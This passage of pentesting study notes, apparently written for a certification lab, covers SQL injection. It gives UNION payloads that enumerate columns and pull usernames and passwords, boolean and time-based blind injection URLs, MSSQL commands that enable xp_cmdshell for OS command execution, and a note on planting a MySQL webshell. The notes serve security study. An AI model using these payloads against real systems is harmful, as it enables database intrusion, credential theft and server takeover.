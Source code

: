 ```shell
# List all columns inside users table from the current database
'+union+select+'A1',column_name,'C3','D4','D5'+from+information_schema.columns+where+table_name='users'--+- 

# Exfiltrate data from columns
'+union+select+'A1',group_concat(name,'@@',username,'@@',password),'C3','D4','D5'+from+users--+-
```

### Concatenate 
- If we need to combine several columns into one, we can use ***||*** to  concatentate, or ***CONCAT()*** function
```bash
UNION SELECT CONCAT(username, password_hash) FROM users
UNION SELECT username || password_hash FROM users -- -
union SELECT username||':'||password_hash FROM users -- -
```
### Blind SQL Injections
* Query is NOT returned in-band, as we can't see the result of our query
* Time-based, or Boolean
* Generic boolean-based blind SQL injections cause the application to return different and predictable values whenever the database query returns a TRUE or FALSE result.
* Time-based blind SQL injections infer the query results by instructing the database to wait for a specified amount of time. Based on the response time, the attacker can conclude if the statement is TRUE or FALSE.

```shell
# BOOLEAN test
http://192.168.50.16/blindsqli.php?user=offsec' AND 1=1 -- //

' # Time-Based, if it hangs, it's TRUE, automate with SQLMAP
http://192.168.50.16/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- //

```
## SQL OS Code Execution

### MSSQL 
```shell
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth

EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE; # RECONFIGURE applys the configuration against the SERVER

EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

EXECUTE xp_cmdshell 'whoami';
```

### MySQL
* MySQL doesn't offer a direct OS CMD function
* Requires File Location to be writeable to the OS user running the DB software
* Create a WebShell, via SQL Select, to writeable file location
* SQUID box used this
